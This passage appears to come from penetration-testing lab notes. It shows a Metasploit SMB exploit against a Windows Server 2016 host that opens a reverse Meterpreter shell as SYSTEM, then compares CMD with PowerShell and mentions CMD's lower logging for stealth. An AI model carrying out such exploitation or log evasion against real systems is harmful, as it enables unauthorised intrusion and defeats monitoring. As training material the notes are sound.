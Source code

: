 ### Step 5: Execution

**Launch exploit:**
```bash
exploit
```

**Successful exploitation:**
```
[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## CMD vs PowerShell Comparison

### Command Prompt (CMD)

**Characteristics:**
- Original MS-DOS shell
- Text-based input/output
- Basic automation with batch files
- No command history retention
- No execution policy restrictions

**When to use CMD:**
- Older hosts (Windows XP and earlier)
- Simple interactions and basic tasks
- Batch files and net commands
- MS-DOS native tools
- Stealth operations (less logging)
- Execution policy concerns

**Common CMD commands:**
```cmd
dir                    # List directory contents
cd                     # Change directory
type                   # Display file contents
copy                   # Copy files
net user               # User management
net share              # Share management
tasklist               # List running processes
systeminfo             # System information
ipconfig               # Network configuration
```

### PowerShell

